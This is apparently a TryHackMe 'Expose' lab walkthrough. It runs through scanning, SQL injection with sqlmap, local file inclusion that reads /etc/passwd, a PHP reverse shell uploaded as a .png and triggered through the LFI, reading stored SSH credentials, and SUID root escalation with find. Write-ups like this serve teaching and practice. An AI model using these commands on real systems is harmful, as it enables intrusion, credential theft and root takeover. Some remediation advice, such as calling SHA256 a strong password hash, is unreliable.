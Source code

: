 TryHackMe <br>
Expose
---

# Reconnaissance/Scanning:

I started off by scanning the network to see which ports were open/services running on the ports.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c0dbd7b4-6121-4550-9a92-f5d479fe6330)

Next, I ran <b>gobuster</b> on the webpage on port 1337.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/a25895d4-ba96-4819-83d0-f632ec96c903)

Then I ran <b>gobuster</b> on the <b>/admin</b> directory.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e304af0c-3ee3-4a17-86bb-a48db54850c9)

And on the <b>/admin_101</b> directory.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/23bfb0c3-20a0-4ef7-9daf-2f3966814cc8)

# Vulnerability assessment:

I found a potential thing to note in the <i>script.js</i> script located in the <b>/assets</b> directory. That must be used with the <i>chat.php</i> page.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4f687052-39a4-4d92-bfcd-2bbccffdfa1b)

There was also a login field on the <b>/phpMyAdmin</b> directory. I tried logging in with basic credentials and got an error message.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b7872666-ee73-4a43-9008-110162498c03)

I used <b>sqlmap</b> and <b>burpsuite</b> to capture a login request to see if I could get any information but had no luck with that page. <br>
I visited <b>/admin</b> to see:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/6349045a-1d85-46bb-be8c-ed9df27ea70b)

That was the same on <b>/admin_101</b> <br>
However, when trying to login to both pages, <b>/admin_101</b> returned an alert error. <br>

# Exploit:
Since I got an error, I ran another captured request text file from <b>burpsuite</b> in <b>sqlmap</b> and got a few hits!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/528c42c2-5a87-491d-8844-01f0adea6477)

Now I know there’s a user that starts with the letter “Z”

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/979df328-dc11-4883-8db1-0266347bccda)

Visiting <i>/file1010111/index.php</i>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/858c51b9-b2b9-493b-be12-fa94ab7ec702)

Entering the cracked password then shows this:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8b80a029-e21c-4411-b994-e2f199d5566c)

Time to do some parameter fuzzing then. <br>
I used <b>gobuster</b> once more to see if I could locate the <i>/etc/passwd</i> file from that page.
```
# using the FUZZ parameter to pass different words to search for local file inclusion
$ gobuster fuzz -u http://<machine_IP>:1337/file1010111/index.php?FUZZ=/etc/passwd -w /path/to/wordlist
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/411c86b6-db5d-4c4d-9afd-345e13c935fc)

Now I have the username that starts with “Z” with a local file inclusion vulnerability!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/236f676d-3874-4d60-8fbc-bae101292f38)

Visiting <i>/upload-cv00101011/index.php</i>:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/65c65c8a-9f90-4869-9497-79c956d9ede7)

Viewing the source code on that page:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ed190f79-41ba-4802-8971-aca28b7a6c7e)

After uploading a php reverse shell I got this message: <br>
<b><i>NOTE: I did have to change the extension to .png to upload it.</i></b> <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/c5ad5102-2d7d-4469-a945-84bb2af03678)

I didn’t see anything in the source code, so I uploaded another image and captured the request with <b>burpsuite</b> and found the path the uploads are sent to. <br>

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/443f8796-c2ed-4c6c-a941-4f6eb440b4c9)

Now to access the shell, I had to visit 
```
hxxp[:]//<machine_IP>:1337/file1010111/index.php?file=../upload-cv00101011/upload_thm_1001/shell.php.png
```
NOTE: Since the <i>/file1010111/index.php</i> had the LFI vulnerability that’s the injection point to access the reverse shell file. <br>

I used the python one liner to upgrade my shell. <br>
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/fc796cbf-e2a6-4bd5-844b-0cfe3de8212a)

I checked the home directory for other users aside from the one I already knew of. Just “Z”. <br>
Inside the user Z’s home directory were two files. 

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3631691b-2808-407d-b8ca-8a6e57c8a239)

I couldn’t read the flag file but even better, for me, I could view the <i>ssh_creds</i> text file.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ad19adda-a556-4416-aebb-e775b6e937c4)

# Privilege Escalation:
I got an SSH session going and I got the user flag!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1a1b7447-9821-40e0-8166-5f0cc381c9b8)


Checking for any low hanging fruits such as cronjobs, what I could run as root or anything in writable directories was a dead end. <br>
However, when checking for binaries with the SUID bit set I had some luck. <br>
```
$ find / -perm -u=s -type f 2>/dev/null
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ee5ce440-4595-4a24-b4de-7756cfe28f42)

There are a few ways to get the root flag by either privilege escalation <b><i>OR</b></i> just using the SUID binaries as the current user! <br>
Escalating to root via <b>find</b> command: <br>
```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/7dffc516-648d-447f-b8f7-a9607c30379a)

As current user: <br>
Using <b>nano</b> to read the root <i>flag.txt</i> file. <br>
```
$ nano /root/flag.txt
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/f133c865-d78e-478b-bde2-a8bef667748c)

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/5c8ecc47-d47a-428b-b02b-777f0fec3e14)

You could also use <b>find</b> to execute a command. <br>

```
# using find to concatenate the file flag.txt in the /root directory
$ /usr/bin/find /root -exec cat "/root/flag.txt" \;
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1c22e872-cf88-46b9-8456-3ff07a58d63e)

# Reporting:
It is recommened to add more data sanitization for the SQL database to prevent the LFI vulnerability. <br>
Also add sanitization checks to make sure correct files are uploaded and also contents are safe. <br>
Add a salt/pepper to hashes and use a strong crytographic hash function such as SHA256. <br>
Turn off anonymous login for the FTP server. <br>
Check all permissions on files/binaries to be set correctly.






